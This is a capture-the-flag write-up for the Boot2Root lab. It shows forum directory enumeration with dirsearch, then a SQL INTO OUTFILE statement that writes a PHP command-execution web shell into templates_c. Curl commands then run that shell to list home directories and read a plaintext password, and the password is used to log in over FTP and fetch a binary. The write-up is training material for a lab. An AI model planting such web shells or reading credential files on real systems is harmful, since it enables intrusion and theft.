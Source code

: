 # Boot2Root

## Get ssh credentials from the forum 

### When we are root on db we can execute arbitrary commands on ther machine.

First we need a directory with appropriate permissions:

let's find this with `python-dirserach` :

```
root@kali:~/Documents/dirsearch# ./dirsearch.py -u https://10.0.2.14/forum -e forum

 _|. _ _  _  _  _ _|_    v0.3.8
 (_||| _) (/_(_|| (_| )

Extensions: forum | Threads: 10 | Wordlist size: 6046

Error Log: /root/Documents/dirsearch/logs/errors-18-10-22_11-20-55.log

Target: https://10.0.2.14/forum

[11:20:55] Starting:
[11:20:56] 403 -  295B  - /forum/.ht_wsr.txt
[11:20:56] 403 -  288B  - /forum/.hta
[11:20:56] 403 -  297B  - /forum/.htaccess-dev
[11:20:56] 403 -  297B  - /forum/.htaccess.BAK
[11:20:56] 403 -  299B  - /forum/.htaccess-local
[11:20:56] 403 -  299B  - /forum/.htaccess-marco
[...]
[11:21:02] 403 -  314B  - /forum/config/settings/production.yml
[11:21:05] 301 -  315B  - /forum/images  ->  https://10.0.2.14/forum/images/
[11:21:05] 301 -  317B  - /forum/includes  ->  https://10.0.2.14/forum/includes/
[11:21:05] 200 -    5KB - /forum/includes/
[11:21:05] 200 -    5KB - /forum/index
[11:21:05] 200 -    5KB - /forum/index.php
[11:21:05] 200 -    5KB - /forum/index.php/login/
[11:21:05] 301 -  311B  - /forum/js  ->  https://10.0.2.14/forum/js/
[11:21:06] 301 -  313B  - /forum/lang  ->  https://10.0.2.14/forum/lang/
[11:21:07] 301 -  316B  - /forum/modules  ->  https://10.0.2.14/forum/modules/
[11:21:10] 301 -  320B  - /forum/templates_c  ->  https://10.0.2.14/forum/templates_c/
[11:21:10] 200 -    6KB - /forum/templates_c/
[11:21:11] 301 -  315B  - /forum/themes  ->  https://10.0.2.14/forum/themes/
[11:21:11] 301 -  315B  - /forum/update  ->  https://10.0.2.14/forum/update/
```

`templates_c/` seems good let's give it a try :

- [X] SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/cmd.php"

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=pwd'`

```
/var/www/forum/templates_c
```

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=ls%20`
./../../../home'

```
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=cat%20`
../../../../home/LOOKATME/password'

```
lmezard:G!@M6f4Eatau{sF"
```

- [X] lmezard:G!@M6f4Eatau{sF"

### ftp 10.0.2.5
```
Connected to 10.0.2.5.
220 Welcome on this server
Name (10.0.2.5:root): lmezard
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.

ftp> get fun
local: fun remote: fun
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for fun (808960 bytes).
226 Transfer complete.
808960 bytes received in 0.02 secs (45.8398 MB/s)

```

exploit fun with the python script.
and we unlock the bomb !
